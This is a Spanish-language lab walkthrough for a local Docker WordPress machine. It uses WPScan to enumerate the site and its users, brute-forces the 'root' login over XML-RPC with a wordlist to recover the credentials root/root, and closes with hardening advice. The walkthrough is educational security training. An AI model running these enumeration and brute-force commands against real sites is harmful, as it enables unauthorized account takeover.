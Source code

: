 = Pereza
:author: Manuel L. Quero
:toc: left
:doctype: book

== Despliegue de la máquina

Sería conveniente utilizar una distribución Linux, es recomendable usar Kali Linux.

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

En este caso deberemos descromprimir el 7z creásndose un directorio y acceder con la terminal a este y ejecutar el siguiente comando. 

[source,bash]
----
$ sudo docker-compose up -d --build
----

== WordPress y sus vulnerabilidades

WordPress es un sistema de gestión de contenidos (CMS) gratuito y de código abierto que permite a cualquier persona crear y administrar sitios web con facilidad. Originalmente concebido como una plataforma de blogs en 2003, ha evolucionado hasta convertirse en una de las herramientas más versátiles para desarrollar desde simples sitios personales hasta complejas tiendas de comercio electrónico.

Sin embargo, su enorme popularidad (más del 40% de los sitios web del mundo utilizan WordPress) lo convierte en un blanco constante para ciberdelincuentes. Esta popularidad, sumada a una comunidad diversa de desarrolladores de plugins y temas, ha generado un entorno en el que las configuraciones por defecto, credenciales débiles, plugins vulnerables o versiones sin actualizar pueden dejar expuesto un sitio web con facilidad.

=== Vulnerabilidades comunes en WordPress

* *Uso de credenciales por defecto o débiles* -> Muchos administradores dejan el nombre de usuario “admin” y contraseñas como “admin123” o “password”, facilitando ataques de fuerza bruta.

* *Plugins y temas vulnerables* -> WordPress permite ampliar su funcionalidad con plugins, muchos de los cuales son desarrollados por terceros. Cuando no se actualizan con frecuencia o tienen malas prácticas de seguridad, pueden introducir fallos críticos.

* *Versiones desactualizadas del núcleo de WordPress* -> Al no aplicar parches de seguridad, se dejan abiertas puertas ya conocidas y documentadas.

* *Configuraciones por defecto* -> Instalaciones que dejan habilitado el acceso público a /wp-admin o la API REST sin restricciones pueden ser explotadas para enumerar usuarios o realizar ataques automatizados.

=== Ataques frecuentes

Entre los ataques más comunes se encuentran:

* Fuerza bruta contra el panel de login

* Cross-Site Scripting (XSS)

* Inyecciones SQL (especialmente en plugins mal desarrollados)

* Carga de archivos maliciosos

* Escalada de privilegios a través de bugs en extensiones

== Solucionar la máquina

En esta guía aprenderemos cómo analizar un sitio web desarrollado con WordPress para identificar posibles vulnerabilidades. Utilizaremos herramientas como WPScan para detectar configuraciones inseguras, plugins o temas desactualizados y otros puntos débiles comunes. Después se realizará un ataque de fuerza bruta como parte del reconocimiento activo, pero su explicación detallada se abordará en la sección correspondiente al círculo de la ira.

=== WPscan

WPscan es una herramienta de escaneo de seguridad específica para sitios web construidos con WordPress. 

==== Descargar

Para descargar esta herramienta viene explicado en su https://github.com/wpscanteam/wpscan[github].

* *Gem* -> Esta es la opción más recomendada en caso de usar Kali Linux.

[source,bash]
----
$ sudo apt install ruby
$ sudo apt install build-essential libcurl4-openssl-dev libxml2 libxml2-dev libxslt1-dev ruby-dev  libgmp-dev zlib1g-dev
$ gem install wpscan
$ gem update wpscan
----

* *Docker* -> En caso de usar otra distribución podemos descargarla por docker.

[source,bash]
----
$ docker pull wpscanteam/wpscan
$ docker run -it --rm wpscanteam/wpscan --url https://target.tld/ --enumerate (...)
----

En caso de usar distribuciones más extrañas puedes https://www.linuxbabe.com/security/install-wpscan-wp-vulnerability-scanner[ver esto].

WPscan es gratis pero mejora con la API, en caso que queramos hacer escaneos más exhaustivos -> https://wpscan.com/pricing/[ver aquí].

==== Reconocimiento

Una vez instalada nuestra herramienta, vamos a proceder a analizar la página.

Es importante saber que el login de WordPress está en /wp-admin. También esta /robots.txt que nos puede proporcionar información adicional.

===== 1. Reconocimiento general

Comenzamos realizando un escaneo general, principalmente para comprender cómo es la estructura, ver las cabeceras, ver si tiene XML-RPC, ver la versión de WordPress, y entre otras cosas que vamos a ver a continuación.

[source,bash]
----
$ wpscan --url http://localhost:8080
----

.WPscan General
[%collapsible]
====
[source,text]
----
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://localhost:8080/ [::1]
[+] Started: Sat Apr 12 19:05:48 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.62 (Debian)
 |  - X-Powered-By: PHP/8.2.28
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://localhost:8080/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://localhost:8080/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://localhost:8080/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.7.2 identified (Latest, released on 2025-02-11).
 | Found By: Rss Generator (Passive Detection)
 |  - http://localhost:8080/?feed=rss2, <generator>https://wordpress.org/?v=6.7.2</generator>
 |  - http://localhost:8080/?feed=comments-rss2, <generator>https://wordpress.org/?v=6.7.2</generator>

[+] WordPress theme in use: twentytwentyfive
 | Location: http://localhost:8080/wp-content/themes/twentytwentyfive/
 | Last Updated: 2025-02-11T00:00:00.000Z
 | Readme: http://localhost:8080/wp-content/themes/twentytwentyfive/readme.txt
 | [!] The version is out of date, the latest version is 1.1
 | Style URL: http://localhost:8080/wp-content/themes/twentytwentyfive/style.css?ver=1.0
 | Style Name: Twenty Twenty-Five
 | Style URI: https://wordpress.org/themes/twentytwentyfive/
 | Description: Twenty Twenty-Five emphasizes simplicity and adaptability. It offers flexible design options, suppor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://localhost:8080/wp-content/themes/twentytwentyfive/style.css?ver=1.0, Match: 'Version: 1.0'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=============================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Apr 12 19:05:52 2025
[+] Requests Done: 170
[+] Cached Requests: 5
[+] Data Sent: 44.104 KB
[+] Data Received: 253.503 KB
[+] Memory used: 269.578 MB
[+] Elapsed time: 00:00:03
----
====

* *[+] Headers*

Podemos ver cómo se están exponiendo cabeceras del servidor y del lenguaje utilizado. Gracias a esto podemos buscar CVEs para las versiones de estos servicios y explotarlos

----
Server: Apache/2.4.62 (Debian)
X-Powered-By: PHP/8.2.28
----

* *[+] XML-RPC Enabled*

XML-RPC es un protocolo que permite a aplicaciones externas interactuar con WordPress (ej: publicación remota). Tener esta habilitado es altamente peligroso y explotable. 
Puede usarse para: ataques de fuerza bruta por amplificación, pingback DDoS o escaneo de usuarios.

----
http://localhost:8080/xmlrpc.php
----

* *[+] WordPress readme found*

Este archivo contiene la versión exacta de WordPress, lo que facilita identificar vulnerabilidades específicas de esa versión.

----
http://localhost:8080/readme.html
----

* *[+] External WP-Cron Enabled*

Permite ejecutar tareas programadas como publicar entradas, comprobar actualizaciones, etc. Si se abusa, puede ser usado para sobrecargar el servidor con peticiones constantes (DDoS).

----
http://localhost:8080/wp-cron.php
----

* *[+] WordPress version identified: 6.7.2*

La versión del CMS puede extraerse fácilmente de los feeds RSS. Conocer la versión nos facilita ataques específicos.

* *[+] WordPress Theme: twentytwentyfive*

La version está desactualizada: 1.0 (última: 1.1). Esto es inseguro ya que las versiones desactualizadas de temas pueden contener vulnerabilidades.

* *[i] No Plugins Encontrados*

En este caso no hay plugins con vulnerabilidades.

* *[+] Enumeración de Config Backups*

No se encontraron backups públicos.

===== 2. Reconocimiento de usuarios

En este escaneo, esperamos conseguir los usuarios que tienen acceso a wp-admin

[source,bash]
----
$ wpscan --url http://localhost:8080 --enumerate u
----

.WPscan Usuarios
[%collapsible]
====
[source,text]
----
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==============================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] root
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] accidia
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
----
====

He cogido directamente la parte de los usuarios, ya que vuelve hacer un escaner general, y eso ya ha sido explicado anteriormente.

Como podemos observar hemos obtenido dos usuarios que son *root* y *accidia*, gracias a esto podemos realizar ataques de fuerza bruta.

* *Enumeración pasiva (RSS Generator)* -> Al acceder al feed RSS (/?feed=rss2), WordPress expone automáticamente metadatos que incluyen el autor de las entradas. Por eso WPScan identificó al usuario root sin necesidad de interactuar directamente con la web.

* *Enumeración agresiva (Author Pattern)* -> WPScan hace peticiones a URLs como /author=1, /author=2, etc., y observa los redireccionamientos y títulos de las páginas para deducir el nombre de usuario. Así encontró accidia.

===== 3. Otros tipos de escaneos

Cómo ya hemos visto, wpscan es una herramienta muy poderosa contra páginas de WordPress, por eso voy a mostrar otros tipos de enumeración que nos pueden servir para obtener más información:

* *Escanear y enumerar plugins y temas*

[source,bash]
----
$ wpscan --url https://example.com --enumerate ap,at
----

ap -> all plugins.

at -> all templates.

* *Enumerar todas las vulnerabilidades*

[source,bash]
----
$ wpscan --url https://example.com --enumerate vp,vt,tt
----

vp -> vulnerable plugins.

vt -> vulnerable themes.

tt -> vulnerable timthumbs.

Una vez identificamos versiones vulnerables de plugins, temas u otros componentes, tenemos varias formas de continuar el ataque o la investigación:

* *Buscar vulnerabilidades manualmente*

Copiamos la versión del plugin/tema vulnerable y la buscamos en un navegador con términos como:

----
(plugin-name) (version) exploit o (plugin-name) CVE.
----

Es común encontrar repositorios en GitHub, foros o blogs donde se comparten proof of concept (PoC) o incluso exploits funcionales.

* *Usar bases de datos de exploits públicos*

https://www.exploit-db.com[Exploit-DB]: Es una base de datos de vulnerabilidades conocida que incluye descripciones técnicas, PoCs y a veces exploits completos. Buscar por nombre de plugin, tema o CVE detectado.

* *Usar SearchSploit (offline)*

https://www.exploit-db.com/searchsploit[SearchSploit] es una herramienta incluida en Kali Linux que permite buscar localmente en la base de datos de Exploit-DB:

[source,bash]
----
$ searchsploit nombre_del_plugin_o_vulnerabilidad
----

También permite mostrar o copiar el exploit directamente:

[source,bash]
----
$ searchsploit -m exploit/path
----

==== Ataque

Una vez obtenidos los usuarios, vamos a realizar un ataque de fuerza bruta con wpscan. Pero antes tenemos que saber que es un ataque de fuerza bruta.

Un ataque de fuerza bruta es un tipo de ataque que utiliza pruebas y errores para descifrar contraseñas, credenciales de inicio de sesión y claves de cifrado. Es una táctica simple pero confiable para obtener acceso no autorizado a cuentas individuales y sistemas y redes de organizaciones.

Estos ataques requieren mucho tiempo, especialmente cuando se utilizan contraseñas largas o complejas. Además este proceso puede consumir grandes cantidades de recursos del sistema (como la CPU y la memoria), lo que hace que el ataque sea lento y costoso en términos de rendimiento. Además son más faciles de detectar ya que generan grandes cantidades de tráfico de red o múltiples intentos de inicio de sesión fallidos.

Existen varios tipos, pero nosotros vamos a usar el ataque por diccionario, en este el atacante selecciona un objetivo y luego prueba las posibles contraseñas contra el nombre de usuario de esa persona.

Kali Linux viene con varios diccionarios preinstalados en la ruta /usr/share/wordlists, que forman parte de sus herramientas, podemos verlo más en detalle en el siguiente enlace https://www.kali.org/tools/wordlists/[Wordlists]. Recomiendo primeramente probar diccionarios pequeños, sobretodo si encontramos indicios de credenciales por defecto, ya que tardará menos que si utilizamos diccionarios más grandes como https://github.com/intelligencegroup-io/RockYou2024[rockyou 2024] con 9,948,575,739 contraseñas.

[source,bash]
----
$ wpscan --url https://localhost:8080 -U root -P /usr/share/wordlists/seclists/Passwords/Most-Popular-Letter-Passes.txt
----

.WPscan Password
[%collapsible]
====
[source,text]
----
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - root / root                                                                                                                                                                     
Trying root / roost Time: 00:03:02 <=================================================                                                                > (38665 / 86268) 44.81%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: root, Password: root
----
====

Como podemos ver que el ataque lo realiza sobre Xmlrpc y que ha encontrado la contraseña root, por lo que probamos a ponerla:

image::assets/root.png[Metemos Credenciales,align=center]

image::assets/acceso.png[Acceso a WordPress,align=center]

Y como podemos ver, estamos dentro.

== ¿Cómo prevenir?

=== WordPress

WordPress al ser muy amplio, tiene muchas formas de mitigarlo, por lo que vamos a ver las más esenciales.

==== 1. Mantener WordPress, plugins y temas actualizados

WordPress es un software que se mantiene y actualiza con regularidad. Por defecto, WordPress instala automáticamente actualizaciones menores. Pero las versiones principales, debe iniciarse manualmente la actualización.

WordPress también incluye miles de plugins y temas que puedes instalar en tu sitio web. El mantenimiento de estos plugins y temas corre a cargo de desarrolladores externos, que también lanzan actualizaciones con regularidad.

==== 2. Utilizar contraseñas fuertes y únicas

Como ya hemos visto los intentos de pirateo de WordPress más comunes utilizan contraseñas robadas. Sin embargo, se puede dificultar utilizando contraseñas más seguras y únicas para el sitio web. Y no solo en WordPress sino en FTP, bases de datos, correos electrónicos asociados, etc. También se puede usar 2FA y gestores de contraseñas como Keepass.

==== 3. Limitar los intentos de inicio de sesión

Se puede restringir la cantidad de intentos fallidos de acceso para prevenir ataques de fuerza bruta. Plugins como https://wordpress.org/plugins/limit-login-attempts-reloaded/[Limit Login Attempts Reloaded] pueden ser muy utilies para esta tarea.

==== 4. Desactivar XML-RPC si no es necesario

XML-RPC es una API del núcleo de WordPress que ayuda a conectar tu sitio WordPress con aplicaciones web y móviles. Está activada / activa por defecto desde WordPress 3.5. Si esta API no se utiliza es muy recomendable desactivarlo. Existen varias formas, pero modificando el .htaccess es la más recomendable al no usar tantos recursos. Deberemos encontrar el archivo .htaccess y poner el siguiente código:

[source,text]
----
# Block WordPress xmlrpc.php requests
<Files xmlrpc.php>
order deny,allow
 deny from all
allow from 123.123.123.123
</Files>
----

Otra forma es usando el plugin  https://wordpress.org/plugins/disable-xml-rpc-api/[Disable XML-RPC-API].

==== 5. Instalar un firewall de aplicaciones web (WAF)

Cómo ya hemos visto en otras ocasiones un WAF es muy útil, pero no debemos confiar toda la seguridad a este, ya que existen formas de baipasearlo.

==== 6. Realizar copias de seguridad periódicas

Otra de las cosas que hemos visto durante el escaneo es la falta de backups, por lo que es recomendable realizar periodicamente estas copias de seguridad, ya que en caso de ransomware puede no afectarnos tanto, aunque depende de la metodología que se siga. Hay plugins como UpdraftPlus o BlogVault y almacenan las copias en ubicaciones externas como Dropbox o Amazon S3.

==== 7. Cambiar el prefijo de la base de datos

Modificar el prefijo por defecto (wp_) de las tablas de la base de datos dificulta los ataques automatizados que buscan estructuras estándar.

==== 8. Desactivar la edición de archivos desde el panel de administración

Esto previene que usuarios con acceso al panel modifiquen archivos críticos directamente desde el navegador.

==== 9. Proteger el archivo .htaccess y otros archivos sensibles

Es necesario restringir el acceso a archivos como .htaccess, wp-config.php y readme.html para evitar que se exponga información sensible.

==== 10. Utilizar un proveedor de alojamiento seguro

Existen servicios de hosting que ofrezcan medidas de seguridad robustas, como escaneos automáticos de malware, certificados SSL y soporte para actualizaciones automáticas.

En caso de querer saber más sobre cómo volver más seguro entornos de WordPress vease -> https://www.wpbeginner.com/es/wordpress-security/[Securizar WordPress].

----
"Si tu empresa gasta más en café que en seguridad TI, serás hackeado. Es más, merecerás ser hackeado."

— Eric S. Raymond
----